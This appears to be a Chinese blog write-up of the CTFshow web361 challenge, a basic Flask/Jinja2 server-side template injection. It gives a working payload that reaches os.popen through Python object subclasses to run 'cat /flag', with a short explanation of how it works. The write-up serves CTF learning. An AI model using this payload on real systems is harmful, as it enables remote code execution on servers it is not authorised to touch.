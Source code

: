 ```yaml
---
date: 2024-06-01
categories: 
    - CTFshow
tag:
    - CTF
    - SSTI
    - flask
    - jinja2
    - python
    
---
```

# 每日一题 —— [CTFshow]web361 

> 题目地址：<https://ctf.show/challenges#web361-845>

<!-- more -->

这一题就是一道最基本的 flask 模板注入了。根据题目提示，我们可以“名字就是考点”。所以我们传入一个叫做 `name` 的参数，发现我们 `name` 参数的值被渲染在了页面上。

于是我们使用 `{{7*7}}` 尝试一下，发现页面上显示了 `49`。确认了存在模板注入。直接构造 payload:

```
?name={{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

原理可以参照我上一篇博客：[normalssti](https://www.sxrhhh.top/writeups/2024/06/01/%E6%AF%8F%E6%97%A5%E4%B8%80%E9%A2%98--%E5%AE%89%E6%B4%B5%E6%9D%AF-2020normal-ssti/)，在这里我就先简单地提上一嘴。

首先使用 `"".__class__.__base__[0].__subclasses__()` 获取到 `object` 的子类，然后使用 `.__init__.__globals__['popen']` 获得 `os.popen` 方法。在这里我们直接不用任何 bypass 就可以完成 RCE, 挺奇怪的，因为在我的电脑上，空格并不能用来传参。

